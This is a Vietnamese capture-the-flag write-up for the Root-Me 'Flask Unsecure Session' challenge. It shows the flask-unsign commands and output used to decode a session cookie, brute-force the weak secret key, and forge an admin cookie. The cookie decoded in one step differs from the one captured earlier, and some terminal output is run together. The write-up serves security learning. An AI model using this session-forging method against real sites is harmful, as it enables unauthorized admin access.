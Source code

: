 # Flask - Unsecure Session

**Tên challenge:**  Sign Or Unsign

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

**Tác giả challenge:** Sanlokii

**Mục tiêu challenge:** Flask-me’s web developer tells you that using a strong secret key is useless. Prove him wrong !

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website có giao diện như sau:

![alt text](./images/image.png)

Sau khi thử từng chỉ mục trên thì chỉ có chỉ mục `ADMIN` hoặc nhấn vào nút `Admin Console` ở trang `HOME` sẽ chuyển ta sang endpoint `/admin`:

![alt text](./images/image-1.png)

Ta Click thử 3 chức năng bên trong `/admin` cũng chẳng có tác dụng gì và nút `Back Home` thì chuyển hướng ta về lại trang `HOME`.

Lúc này khi ta xem lại gói tin `/` thì ta phát hiện ta được cấp 1 **Session** có dạng như sau:
```
eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Z2k2dg.RNDEAoQt_xE4_rH80GFEmpMvhyE
```

**B2:** Ta thử `Decode Session` trên bằng tool [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)
 
```
$> flask-unsign --decode --cookie '.eJwtybERgDAIAMBdskAChiBuA4TYWBk7z921sPu7v9MMP-NK24-ZGVXAYSEpjcG1wGCPWjs7gXwANERlohXMXEYrzcOgf8taLY9D9_S8w5kaRw.Z1Uacg.J0f1b_gkX_qDI8ThkONnFMa6EmA'

{'admin': 'false', 'username': 'guest'}
```

=> Vậy là mục tiêu kế tiếp của ta là thay đổi giá trị `admin` từ `false -> true`.

Nhưng trước tiên, ta phải cần tìm được `Secret Key` nếu muốn giả mạo chữ ký.

**B3:** Ta tiếp tục dùng tool trên để Brute-force `Secret Key`
```
$> flask-unsign --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Z2k2dg.RNDEAoQt_xE4_rH80GFEmpMvhyE'

[*] Session decodes to: {'admin': 'false', 'username': 'guest'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2176): -----BEGIN PRIVATE KEY-----ECR
[+] Found secret key after 20480 attemptsskecret keyk
's3cr3t'
```

**Lưu ý:** Nếu bạn chạy gặp lỗi thì do bạn chưa cài [Flask Unsign Wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist) vì câu lệnh trên sẽ dùng **Wordlists Default** trong `Flask-unsign` với điều kiện `wordlists` phải được cài đặt cùng với tool.

**B4:** Tiếp theo, ta sẽ dùng `Secret Key` vừa tìm được để tạo Session mới cho ta:
```
$> flask-unsign --sign --cookie "{'admin': 'true', 'username': 'guest'}" --secret 's3cr3t'

eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.Z2k8hQ.c6WBKjGYGi-tUjuHxqINECxrUFM
```

**B5:** Ta bắt lại gói tin `/admin`, thay **Session** trên và ta sẽ lấy được `Flag`:

![alt text](./images/image-2.png)

=> Vậy là ta đã thành công lấy được `Flag`.
